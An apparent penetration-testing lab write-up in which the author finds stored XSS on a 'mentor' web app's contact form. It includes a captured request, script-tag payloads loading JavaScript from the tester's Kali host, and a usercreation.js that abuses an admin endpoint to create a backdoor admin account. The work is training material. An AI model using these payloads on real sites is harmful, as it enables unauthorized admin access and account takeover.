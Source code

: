 #### Potential XSS
- requires email address
![[Pasted image 20241209160505.png]]
when viewing `elements` in the page we see we are able to change the `type`
- also take note of the `hidden` token field - i cant remember exactly what that means right now
![[Pasted image 20241209161021.png]]
changed to `text`
![[Pasted image 20241209161223.png]]
and was able to submit the `XSS` test paylaod
![[Pasted image 20241209161259.png]]
`BURPSUITE` response that comes back
```HTTP
POST /contact HTTP/1.1
Host: mentor
Content-Length: 608
X-Requested-With: XMLHttpRequest
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9QrlykoE1g1ZVXCX
Accept: */*
Origin: http://mentor
Referer: http://mentor/contact
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6IllqazdKd0xSVEJOaVB5eWVabG1kbVE9PSIsInZhbHVlIjoiemh6dDJabGMzYThTRjZkN1BlWnpkQnd3RkhQK1Z6TGJOeUh6VW5idGhsQ3YrVjlITmJqRDMxWVRMRllPbTZhNGFoY0U3Y1RjVzhRVUc0L29tR0NNZUVZREhYdlkxNWtOTlFKbk1nTXdQL3A3a1VPVTI1UkJFT0ZPcU03K1JoN0IiLCJtYWMiOiI1NmVlYmJjNmExZTU1MDIwMDI5NjA1OTlhM2RmZWQ3YmE0ZmJjMjQyNzliN2QyMzk2ZDZmZGMxYjVkM2E3Y2RkIiwidGFnIjoiIn0%3D; mentor_session=eyJpdiI6IlA5emxxWTltWjVFeHQ4Sy9rTUkrRUE9PSIsInZhbHVlIjoiUmw2anN5QllZc1E1MzVwRzQyU0hjdHZvbFF5YVJFOFNsai9zSWQ4YlBlaU9VWVllSVRPeWpiVDl2TEpkL2NWd2Q3djBUMWtwZUN3bFBRSG90V0hrYzMzblB1akhhZUNPTFZXTUZleVFXWUx0NHo3UlJEeTY4OFBrWG43d0p6OTUiLCJtYWMiOiI0NzQwMDNmOTQwMzQ0NTNiNWE0MjU4Y2RkYzQ4NDU2MGE0YzE5NWRjYTlhMDFmNGExZTBkN2ZiMjVkZGQ2YzFjIiwidGFnIjoiIn0%3D

Connection: keep-alive



------WebKitFormBoundary9QrlykoE1g1ZVXCX

Content-Disposition: form-data; name="_token"



CJa5tU1EhuDVMAqVMcTGswrNcFizzVCdZVuP10r2

------WebKitFormBoundary9QrlykoE1g1ZVXCX

Content-Disposition: form-data; name="name"



<h1>offsec</h1>

------WebKitFormBoundary9QrlykoE1g1ZVXCX

Content-Disposition: form-data; name="email"



<h1>offsec</h1>

------WebKitFormBoundary9QrlykoE1g1ZVXCX

Content-Disposition: form-data; name="subject"



<h1>offsec</h1>

------WebKitFormBoundary9QrlykoE1g1ZVXCX

Content-Disposition: form-data; name="message"



<h1>offsec</h1>

------WebKitFormBoundary9QrlykoE1g1ZVXCX--
```
now to test to see if we are able to utilize `xss` to hit our `kali` machine

hosting `xss.js` with `python3` server
![[Pasted image 20241209162358.png]]
payload to send to test
```bash
<script src="http://192.168.45.231:8000/xss.js"></script>
```
sending off
![[Pasted image 20241209162533.png]]
proof we have `XSS`
![[Pasted image 20241209162559.png]]


#### addUser at `/login` endpoint

once we are at the `/login` page found through `gobuster`
![[Pasted image 20241209162943.png]]
`inspect` the page and try to find `main.js` file 
- once found we can see that there is an `addUser` javascript function that adds an `admin` user
![[Pasted image 20241209163106.png]]
if we utilize the parameters that the `addUser` function requires we should be able to create credentials and add them to be a `admin` user

- Imagine `xhttp` as your mailman. It's a helper that can send letters (requests) to a server and get letters (responses) back.
-  the `onreadystatechange` function is not required
```js
function addUser() {

	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function () {
		if (this.readyState == 4 && this.status == 200) {
			// Typical action to be performed when the document is ready:
			alert(xhttp.responseText)
			window.location = window.location;
		}
	};
	var creds = 'email=' + document.getElementById('email').value + '&password=' + document.getElementById('password').value + "&name=" + document.getElementById('name').value + "&username=" + document.getElementById('username').value;
	xhttp.open("GET", "/admin/users/add?" + creds, true);
	xhttp.send();
}
```
my payload to feed to the server with the `XSS` vulnerability found earlier:

usercreation.js
```js
var xhttp = new XMLHttpRequest(); // to create a request object
var creds = 'email=jbug@offsec.local&password=jbug&name=jbug&username=jbug' // to create string of credentials that were in main.js
xhttp.open("GET", "/admin/users/add?" + creds, true); // preparing to add new user to admin user - calls upon creds variable
xhttp.send(); // sending the request to the server
```
`xss` payload
```bash
<script src="http://192.168.45.231:8000/usercreation.js"></script>
```
submitting the payload
![[Pasted image 20241209165654.png]]
proof the `xss` payload worked in getting pulled over
![[Pasted image 20241209165530.png]]
testing to see if the user was created with `jbug:jbug` credentials @ `http://mentor/login`
![[Pasted image 20241209165846.png]]
successfully logged in and local.txt
![[Pasted image 20241209165920.png]]
